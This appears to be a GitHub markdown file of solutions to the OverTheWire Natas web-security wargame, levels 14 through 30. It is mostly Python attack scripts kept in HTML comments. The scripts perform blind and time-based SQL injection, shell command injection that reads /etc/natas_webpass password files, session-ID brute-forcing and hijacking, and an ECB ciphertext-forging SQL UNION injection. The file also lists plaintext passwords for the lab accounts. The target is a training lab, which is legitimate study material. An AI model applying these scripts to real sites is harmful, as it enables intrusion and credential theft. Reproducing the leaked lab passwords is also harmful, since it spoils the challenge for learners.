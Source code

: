 HERE IS THE SOME OF THE LASTEST NATAS LEVELS PASSWORDS AND SOLUTION


<!--LEVEL 14 -> 15
<!-- import requests -->

<!-- chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890" -->
<!-- 
password = "hPkjKYvi"
url = "http://natas15.natas.labs.overthewire.org/index.php"

basic_user = "natas15"
basic_pass = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
while len(password) <= 32:
    for testing in chars:
        data = {"username": f'natas16" AND password LIKE BINARY "{password + testing}%" #'}
        resp = requests.post(url, data=data, auth=(basic_user, basic_pass))
    
        if "This user exists." in resp.text:
            password += testing
            print(f"Current password: {password}")
            break -->

<!-- print(f"Final password: {password}") -->



<!-- NATAS16->17  -->

<!-- import requests

# Characters to test for the password
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
# Starting with known prefix (if any)
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"
# URL and authentication
url = "http://natas16.natas.labs.overthewire.org/"
auth = ("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")

while len(password) < 32:
    for char in chars:
        print(f"Testing character: {char}")
        # Crafting the payload to inject into the `needle` parameter
        payload = f"$(grep ^{password}{char} /etc/natas_webpass/natas17)"
        response = requests.get(url, auth=auth, params={"needle": payload, "submit": "Search"})
        # Checking if the injected command did not return "Americanisms"
        if "Americanisms" not in response.text:
            # If the response does not contain "Americanisms", it means the prefix is correct
            password += char
            print(f"Found so far: {password}")
            break

print(f"Password for natas17: {password}")
 -->

<!-- next one -->

<!-- # natas 17-> 18

# import requests

# # Initialization
# password = "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ"
# chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
# auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")
# url = "http://natas17.natas.labs.overthewire.org/"

# # Loop until the password length reaches 32 characters
# while len(password) < 32:
#     print(f"Till now password is: {password}")
#     print("Testing for ", end='')
#     for char in chars:
#         print(char, end="", flush=True)
#         data = {'username': f'natas18" and password like binary "{password}{char}%" and sleep(20) -- '}
        
#         try:
#             # Sending the POST request
#             response = requests.post(url, data=data, auth=auth, timeout=10)
#         except requests.exceptions.ReadTimeout:
#             # If a ReadTimeout exception occurs, it means the password is correct up to the current character
#             password += char
#             print("")
#             break
        
# print(f"Finished! Password is {password}") -->


<!-- natas 18 -> 19 -->

<!-- import requests


auth = ("natas18","6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ")
url = "http://natas18.natas.labs.overthewire.org/index.php"
password = "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"

for i in range(1,640):
    cookies = {"PHPSESSID": str(i) }
    response = requests.get(url, auth=auth, cookies=cookies )
    print(i)
    
    if "regular user" not in response.text:
        print(response.text) -->





<!-- natas 19 -> 20 -->

<!-- 
import requests

def hex2ascii(s):
    ret = ""
    for c in s:
        coded = hex(ord(c))[2:]
        if len(coded) == 1:
            coded = '0' + coded  # Ensure two characters per byte
        ret += coded
    return ret

auth = ("natas19", "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr")
url = "http://natas19.natas.labs.overthewire.org/index.php"
password = "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw"

for i in range(1, 640):
    session_id = hex2ascii(f"{i}-admin")
    cookies = {"PHPSESSID": session_id}
    res = requests.get(url, auth=auth, cookies=cookies)
    
    print(i, session_id)
    
    if "regular user" not in res.text:
        print(res.text)
        break  # Exit the loop once the correct session is found
 -->




<!-- natas 21->22



import requests

target = 'http://natas21.natas.labs.overthewire.org'
auth = ('natas21', 'BPhv63cKE1lkQl04cE5CuFTzXe15NfiH')

exp_tar='http://natas21-experimenter.natas.labs.overthewire.org/?debug=true&submit=1&admin=1'


#First POST request to get session of admin from exp_tar
session=requests.Session()
response = session.post(exp_tar, auth=auth)
admin_session = session.cookies['PHPSESSID']
print(response.text)


#Second request to be admin
response = requests.get(target, auth=auth,cookies={"PHPSESSID":admin_session})
print(response.text)



 -->





<!-- natas 27 -> 28 -->

<!-- 




import requests
import urllib
import base64

url = "http://natas28.natas.labs.overthewire.org"
s = requests.Session()
s.auth = ('natas28', '1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj')

# First we generate a baseline for the header/footer
data = {'query':10 * ' '}
r = s.post(url, data=data)
baseline = urllib.parse.unquote(r.url.split('=')[1])
baseline = base64.b64decode(baseline.encode('utf-8'))
header = baseline[:48]
footer = baseline[48:]

# We generate the ciphertext query and parse the result
sqli = 9 * " " + "' UNION ALL SELECT password FROM users;#"
data = {'query':sqli}
r = s.post(url, data=data)
exploit = urllib.parse.unquote(r.url.split('=')[1])
exploit = base64.b64decode(exploit.encode('utf-8'))

# We computer the size of our payload
nblocks = len(sqli) - 10
while nblocks % 16 != 0:
    nblocks += 1 
nblocks = int(nblocks / 16)

# Then, we forge the query
final = header + exploit[48:(48 + 16 * nblocks)] + footer
final_ciphertext = base64.b64encode(final)
search_url = "http://natas28.natas.labs.overthewire.org/search.php"
resp = s.get(search_url, params={"query":final_ciphertext})

print(resp.text)





 -->

<!-- natas 29 -> 30  -->


<!-- 

import requests

auth = ('natas30','WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH')
data = {'password':'ali', 'username': ["'%' or 1 # ", 2]}
url = 'http://natas30.natas.labs.overthewire.org'

answer =  requests.post(url, data=data , auth=auth).text
print(answer)


 -->

<!-- last levels password update 2024 -->



<!-- natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne -->
<!-- natas28:1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj -->
<!-- natas29:31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns -->
<!-- natas30:WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH -->
<!-- <!-- natas31:m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y -->
<!-- <!-- natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B -->
<!-- <!-- natas34:j4O7Q7Q5er5XFRCepmyXJaWCSIrslCJY -->



 


